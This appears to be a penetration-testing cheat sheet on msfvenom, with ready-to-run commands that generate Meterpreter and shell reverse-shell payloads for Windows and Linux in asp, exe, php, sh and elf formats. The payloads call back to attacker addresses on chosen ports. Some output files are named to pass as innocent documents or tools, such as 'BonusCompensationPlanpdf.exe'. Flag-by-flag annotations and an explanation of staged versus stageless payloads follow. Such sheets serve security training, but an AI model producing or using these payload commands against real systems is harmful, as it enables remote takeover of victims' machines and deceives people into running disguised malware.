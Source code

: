 ## msfvenom
msf venom helps to craft payloads and reverse shells etc
Creates reverse shells for different platforms

### Example
```shell
msfvenom -l payloads # list all payloads
```
```shell
#on attacker we need of course a listener if we want to catch the created shells

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f asp > shell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f exe > shell.exe
msfvenom -p linux/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f php > shell.php
msfvenom -p linux/meterpreter/reverse_tcp LHOST=10.10.14.190 LPORT=8001 -f sh > shell.sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
#### Build Simple stageless payload
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
msfvenom #Defines the tool used to make the payload.
-p #This option indicates that msfvenom is creating a payload.
linux/x64/shell_reverse_tcp # Specifies a Linux 64-bit stageless payload that will initiate a TCP-based reverse shell (shell_reverse_tcp).
LHOST=10.10.14.113 LPORT=443 # When executed, the payload will call back to the specified IP address (10.10.14.113) on the specified port (443).
-f elf # The -f flag specifies the format the generated binary will be in. In this case, it will be an .elf file.
> createbackup.elf # Output

```

## Stageless vs Staged Payload
- Staged Payload will create a stage on the target system that can connect back to the attacker to get the next stage of the payload.
- Stageless Payload will create a single payload that will execute on the target system without needing to connect back to the attacker for additional stages.

#### Nameing vonvention in msvenom and metasploit
```
Staged: linux/x86/shell/reverse_tcp
Stageless: linux/zarch/meterpreter_reverse_tcp

Staged:  windows/meterpreter/reverse_tcp 
Stageless: windows/meterpreter_reverse_tcp
 
```


